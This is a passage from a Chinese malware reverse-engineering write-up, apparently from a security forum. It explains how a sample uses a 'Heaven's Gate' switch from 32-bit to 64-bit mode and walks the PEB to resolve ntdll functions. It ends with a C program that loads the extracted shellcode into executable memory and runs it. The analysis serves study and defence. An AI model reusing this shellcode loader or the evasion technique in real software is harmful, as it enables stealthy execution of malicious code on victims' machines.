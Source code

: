如果cs为0x23则指令为32位，为0x33则为64位

在ida找到数据段按C可以转为汇编代码

![24.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-7c1c851444ab4cf343291cdfa7497fc35b1da472.png)

可以看到call了sub\_41A933函数

![25.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-9aa2d9de5e567d876abff60397968fcb0b5242be.png)

sub\_41A933函数push 0x33和eax，这里eax的是call sub\_41A933的下一行指令

不过这已经不重要了，因为IDA和dbg都看不清了，到这里已经转成64位的指令了

这里可以用PE-bear简单的查看一下

![26.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-d1b00ffaf7f597d40a5f2655c8df8b5fa93739c7.png)

可以把机器码转为不同位数的指令

![27.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-8c7ef26a11ac89f7a128d5319634e5f3c15eb4e9.png)

前面说了rerf指针会回到call sub\_41A933的下一行指令，就是这位置

不要在意上面的指令为啥不是call，因为这里位数已经改变了

看一下下面的汇编0x60，0x18，这种就是在找PEB里面的dll链表了

因为之前文章有说过这里就不展开了

这块指令就是用来找64位ntdll的地址，然后找里面的某个函数调用

这里可以把机器码全部复制下来然后用x64dbg调试

```c++
#include <stdio.h>
#include <Windows.h>

int main() {
    char sc[] = "\x53\x5B\x85\xC0\x74\x67\x48\x89\xE6\x48\x83\xE4\xF0\x48\x83\xEC\x68\xB8\xFA\x80\x39\x5E\x53\x5B\xE8\x86\x00\x00\x00\x48\x89\xC3\x4D\x31\xC0\x48\x31\xC0\x48\x89\x44\x24\x50\x53\x5B\x48\x89\x44\x24\x48\x48\x89\x44\x24\x40\x48\x89\x44\x24\x38\x53\x5B\x48\x89\x44\x24\x30\x8B\x46\x24\x48\x89\x44\x24\x28\x8B\x46\x20\x48\x89\x44\x24\x20\x53\x5B\x44\x8B\x4E\x14\xBA\x00\x00\x00\x10\x8B\x4E\x30\x53\x5B\xFF\xD3\x48\x89\xF4\xE8\x1C\x00\x00\x00\x5D\x5F\x5E\x5B\xC3\x31\xC0\x48\xF7\xD8\xC3\xE8\xF5\xFF\xFF\xFF\x74\x07\x58\x6A\x33\x53\x5B\x50\xCB\xC3\x53\x5B\xE8\xE4\xFF\xFF\xFF\x53\x5B\x75\x10\x58\x83\xEC\x08\x89\x04\x24\xC7\x44\x24\x04\x23\x00\x00\x00\xCB\xC3\x56\x57\x53\x51\x49\x89\xC0\x6A\x60\x5E\x65\x48\x8B\x06\x48\x8B\x40\x18\x53\x5B\x4C\x8B\x50\x30\x53\x5B\x49\x8B\x6A\x10\x48\x85\xED\x89\xE8\x74\x59\x4D\x8B\x12\x8B\x45\x3C\x83\xC0\x10\x8B\x44\x05\x78\x53\x5B\x48\x8D\x74\x05\x18\xAD\x91\x67\xE3\xDC\xAD\x4C\x8D\x5C\x05\x00\x53\x5B\xAD\x48\x8D\x7C\x05\x00\xAD\x48\x8D\x5C\x05\x00\x53\x5B\x8B\x74\x8F\xFC\x48\x01\xEE\x31\xC0\x99\xAC\x01\xC2\xC1\xC2\x05\x53\x5B\xFF\xC8\x79\xF4\x44\x39\xC2\xE0\xE5\x75\xAC\x0F\xB7\x14\x4B\x53\x5B\x41\x8B\x04\x93\x48\x01\xE8\x59\x5B\x5F\x5E\xC3";
    void* exec = VirtualAlloc(0, sizeof sc, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, sc, sizeof sc);
    ((void(*)())exec)();
    return 0;
```
